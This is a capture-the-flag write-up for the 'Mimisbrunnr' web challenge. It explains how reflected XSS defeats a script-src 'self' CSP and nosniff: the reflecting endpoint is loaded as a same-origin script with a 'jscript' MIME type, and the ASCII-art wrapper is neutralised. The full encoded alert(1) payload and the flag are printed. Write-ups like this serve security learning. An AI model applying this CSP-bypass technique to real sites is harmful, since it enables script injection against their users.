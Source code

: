 # Mimisbrunnr (web)

In the challenge we get a form where we should put a link to the same page, but with XSS vulnerability triggered, by showing `alert(1)`.
What we get to work with is a special page which can echo our inputs, but with a few difficulties:

1. There is `Content-Security-Policy script-src 'self'`, so we can load only javascript from the same host
2. There is `X-Content-Type-Options	nosniff` so scripts will load only if mimetype of the resource is correct
3. We get the echo from link `http://mimis.alieni.se:2999/xss?xss=OUR_INPUT&mimis=plain` as part of:

```

                              WELCOME, OUR_INPUT
    /h e h e//////////////////////////////////////////////////////////////////////////////////////`    
    /*∕MMMMMMMMMMMMMMMMMMMMMMMMMMMMMNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMN-    
    /*∕MMMMMMMMMMMMMMMMMMMMMMMMMMNs:...-:/++osyhhdmmNNNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMN-    
    /*∕MMMMMMMMMMMMMMMMMMMMMMMMMh-  ``            ```..-://+osyyhdmmNNMMMMMMMMMMMMMMMMMMMMMMMMN-    
    /*∕MMMMMMMMMMMMMMMMMMMMMMMN/` `.............`````````        ````./dMMMMMMMMMMMMMMMMMMMMMMN-    
    /*∕MMMMMMMMMMMMMMMMMMMMMMy.  ..................................... `+mMMMMMMMMMMMMMMMMMMMMN-    
    /*∕MMMMMMMMMMMMMMMMMMMMm/` `------.............................-+s-  .sNMMMMMMMMMMMMMMMMMMN-    
    /*∕MMMMMMMMMMMMMMMMMMMy.  ...-------------------...............+o+o:`  :dMMMMMMMMMMMMMMMMMN-    
    /*∕MMMMMMMMMMMMMMMMMm+` `...................------------------:o+++o+.  .sNMMMMMMMMMMMMMMMN-    
    /*∕MMMMMMMMMMMMMMMMh-  .:----............................----/oooooooo-   :dMMMMMMMMMMMMMMN-    
    /*∕MMMMMMMMMMMMMMNs`  .-----:-::--------....................-++++++oooo:`  `yNMMMMMMMMMMMMN-    
    /*∕MMMMMMMMMMMMMN/  `.............-------::::----..........-++++++++oooo+.   +NMMMMMMMMMMMN-    
    /*∕MMMMMMMMMMMMN:  `-......................---------:------/+++oooo++oooo+.   :mMMMMMMMMMMN-    
    /*∕MMMMMMMMMMMMh   .:::-----..........................----++++++++oooooooo+.   hMMMMMMMMMMN-    
    /*∕MMMMMMMMMMMMm:.``  ```...-::///:---...................:+++ooooooo++/:-.```.:mMMMMMMMMMMN-    
    /*∕MMMMMMMMMMMMMMNmdhyo+:-`   -oss+..--:::::::----......:++++ooss:-.`.-:+syhdmNMMMMMMMMMMMN-    
    /*∕MMMMMMMMMMMMMMMMMMMMMMNh` `+osso/::-..``.+osooo+//::-/:-../oss`  +mNMMMMMMMMMMMMMMMMMMMN-    
    /*∕MMMMMMMMMMMMMMMMMMMMMMMMo  .+syo++oossoooosossssssss-`    :oss`  /*∕MMMMMMMMMMMMMMMMMMMN-    
    /*∕MMMMMMMMMMMMMMMMMMMMMMMMd` ./sy/   ``./sooosososssyy+/:-../+ss.  .yNMMMMMMMMMMMMMMMMMMMN-    
    /*∕MMMMMMMMMMMMMMMMMMMMMMMMM. `:oy/      `` .-+osoooos//+oosso+sy+/-` /mMMMMMMMMMMMMMMMMMMN-    
    /*∕MMMMMMMMMMMMMMMMMMMMMMMMM: `:oy/           :o-   ``      `//syosy+` .yNMMMMMMMMMMMMMMMMN-    
    /*∕MMMMMMMMMMMMMMMMMMMMMMMMM+ `:oy/           -o-            -:ss``+yo.  :dNMMMMMMMMMMMMMMN-    
    /*∕MMMMMMMMMMMMMMMMMMMMMMMMMs `:sy/           -o.            -:ss`  :ss-   .:o/*∕MMMMMMMMMN-    
    /*∕MMMMMMMMMMMMMMMMMMMMMMMMMs `:sy/           -o.            -:ss`   -os/``    `oMMMMMMMMMN-    
    /*∕MMMMMMMMMMMMMMMMMMMMMMMMMs `:sy/           -/.            -:ss`    `/oo+:::  /MMMMMMMMMN-    
    /*∕MMMMMMMMMMMMMMMMMMMMMMNds. `:sy/           :+`            -:ss`        `.-`  /*∕MMMMMMMN-    
    /*∕MMMMMMMMMMMMMMMMMNds+-`    .:syo/+osssooooo/oo+++//::--.` ::ss`    .osso+////*∕MMMMMMMMN-    
    /*∕MMMMMMMMMMMMMMMMy.    `..-:::oyyyssyyyysyyy+syyyyyssssssss+:sy-`   :mMMMMMMMMMMMMMMMMMMN-    
    /*∕MMMMMMMMMMMMMMMh`   .-::::/ossyyyyyhhhhhhhh/shhhhhhhhhyyyyo:syss+/` `/dMMMMMMMMMMMMMMMMN-    
    /*∕MMMMMMMMMMMMMMM/  `---.-:oyyyhhhhhyhhhhhhhh/yhhhhhhhhhhhyho:syyssss/` `/*∕MMMMMMMMMMMMMN-    
    /*∕MMMMMMMMMMMMMMN.  /+-----+yyyyhhhyhhhhhhhhh/yhhhhhhhhhhhyho:syyyysss/  sMMMMMMMMMMMMMMMN-    
    /*∕MMMMMMMMMMMMMMN.  +o/.``../oyyhhhhhhhhhhhhh+hhhhhhhhhhhhys/:syssssyyy. sMMMMMMMMMMMMMMMN-    
    /*∕MMMMMMMMMMMMMMN.  /+/::-```.-::/+ossyhhhhhhshhhhhhyyso+//:--/o+ossyyy- oMMMMMMMMMMMMMMMN-    
    /*∕MMMMMMMMMMMMMMN`  ++/:/:-:--......`.----:://://:::::::-://+oossssssss: -MMMMMMMMMMMMMMMN-    
    /*∕MMMMMMMMMNNmdy/  `oo///:-:/::::::.-:------::-//++++oososssyysssyyssyy/  +hNMMMMMMMMMMMMN-    
    /*∕MMNhyo+/:-.``    `++///:::::::::---::://////:+ooosssssosssssssssssyyy+   `.:oymNMMMMMMMN-    
    /*∕Mh-          `..-:o+://::/::::--::---:::::/::/+oooooosyyssssyyyyyosyy+`       `:yNMMMMMN-    
    /*∕d`    ```..--::/++o+/::::///:::---:::::::::/:/+oooooosyyyssyyyyyssssso/:::`.`    :dMMMMN-    
    /*∕/    `..-::::::///so+///::///:::::::://////:/++ooooosssssssssssssyysysooo+///---  `sNMMN-    
    /*∕+   `----::::::://oso/+//://///:::::///////:/+++++osyyssyyyssysosyysysoooo+++++/``  +NMN-    
    /*∕m-  ``.-::::::::::+oo++++:::///:////:::::////++ooosyyyssyyyssssssssssoooooo+++++/:   dMN-    
    /*∕Mm:   `.-::::-::::::///++/////::///::///////+ooossssssssyyyssyssooooooo+++++++++/`  .mMN-    
    /*∕MMNo.   `.-----::::::::::::+++++++/:++++ooo+osssyyyysysoossooo++++++++++++++++//`  `/*∕N-    
    /*∕MMMMmy/.   `....-:-::::::::://:++/+/+/+o/+oo+osssssso+/+/+////+++++///+///+/:-``  `sMMMN-    
    /*∕MMMMMMMmh+-`    ..--------:::::::::::::::::::://///////////////++///:-:-:/:.    ./dMMMMN-    
    /*∕MMMMMMMMMMNdy/.`      `.......---::-:::::::::::::////://////:.--....    `.``.:ohNMMMMMMN-    
    /*∕MMMMMMMMMMMMMMNds+:.``          ``````...`-:-.....-::::::-..         `.-/oydNMMMMMMMMMMN-    
    /*∕MMMMMMMMMMMMMMMMMMMNNmdyso+/:-.``                  `````      `.-/oydmNMMMMMMMMMMMMMMMMN-    
    /*∕MMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNNmhysso+//:--....``````.-:/+sydmNMMMMMMMMMMMMMMMMMMMMMMMN-    
    /*∕MMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNNNNNNNNNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMN-    
    /*/ooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo-- 
```

To overcome the first protection, we simply have to use the same page as the javascript source to load.
As our input we provide `<script src="/xss?xss=SOME_OTHER_INPUT&mimis=SOME_MIMETYPE"/>`

To tackle the second protection we need to provide the right mime type for this script.
They were appending `text/` to whatever we provide, and `javascript` didn't work, but we checked other options is `jscript` worked fine.
So we can inject: `<script src="/xss?xss=SOME_OTHER_INPUT&mimis=jscript"/>`

The last part requires that this ascii-art with our payload is correctly loaded as javascript source code.
First issue is the `WELCOME, ` part which comes before our payload.
`WELCOME` is not a known symbol in this context so it crashes.
But it seems javascript allows to call functions before they're declared, so we can inject `function WELCOME(){}` and it will work just fine.
Last step is to take care of the ascii-art, but this we can do by injecting `var ooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo; /*`.
Block comment will take care of the most of the picture, and the var will handle the `ooooo`.

As a result the page we inject as source for script is: `http://mimis.alieni.se:2999/xss?xss=alert(1);%20function%20WELCOME(){};var%20ooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo;%20/*&mimis=jscript`

And we inject this by `<html><head><script src="/xss?xss=alert(1); function WELCOME(){};
var ooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo; /*&mimis=jscript"></script> </head></html>`

So the final encoded string is:
`http://mimis.alieni.se:2999/xss?xss=%3Chtml%3E%3Chead%3E%3Cscript%20src=%22/xss?xss=alert(1)%3b%20function%20WELCOME(){}%3b%0Avar%20ooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo%3b%20%2f*%26mimis=jscript%22%3E%3C/script%3E%20%3C/head%3E%3C/html%3E&mimis=html`

And by submitting this we get back the flag: `midnightsun{t3xt_1z_d@ng3r00ze!!}`
